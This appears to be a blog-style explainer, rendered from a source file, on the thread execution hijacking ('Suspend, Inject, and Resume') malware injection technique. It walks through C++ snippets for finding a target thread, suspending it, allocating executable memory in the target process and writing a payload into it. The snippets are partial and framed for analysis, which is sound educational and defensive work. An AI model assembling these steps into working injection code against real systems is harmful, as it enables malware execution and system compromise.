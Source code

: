 :orphan:
(malware-injection-techniques-thread-execution-hijacking-and-setwindowshookex)=

# Malware Injection Techniques: Thread Execution Hijacking and SetWindowsHookEx

Malware injection is the process of inserting malicious code into a legitimate program or file. This can be done in a number of ways and once the malicious code is injected, it can be executed when the legitimate program or file is run. This can allow the attacker to gain access to the system, steal data, or cause other damage. In this blog post, we continue to review the various methods of code injection!

## Thread Execution Hijacking:

This is often referred to as _SIR_, which stands for _"Suspend, Inject, and Resume."_

This variant of the injection technique injects malicious code into the existing thread of a process (thereby avoiding the overhead of creating a new process and thread) and then uses the target to start a thread in itself. Previously, the shell code would have been injected by using the name of the DLL.

As a consequence of this, when we perform analysis, we can discover that the functions `CreateToolhelp32Snapshot` and `Thread32First` come before a call to `OpenThread`:

```cpp
// find thread ID for hijacking
hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
if (Thread32First(hSnapshot, &te)) {
  do {
    if (pid == te.th32OwnerProcessID) {
    ht = OpenThread(THREAD_ALL_ACCESS, FALSE, te.th32ThreadID);
    break;
    }
  } while (Thread32Next(hSnapshot, &te));
}
```

To begin, the malicious software obtains a foothold on the victim's thread.

The `SuspendThread` function is then used to place the thread into a _"suspended"_ state, which is the next step in the injection process:

```cpp
SuspendThread(ht);
```

The malware then calls `VirtualAllocEx` function to allocate memory space:

```cpp
rb = VirtualAllocEx(ph, NULL, my_payload_len, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```

Then calls `WriteProcessMemory` function to code injection:

```cpp
WriteProcessMemory(ph, rb, my_payload, my_payload_len, NULL);
```
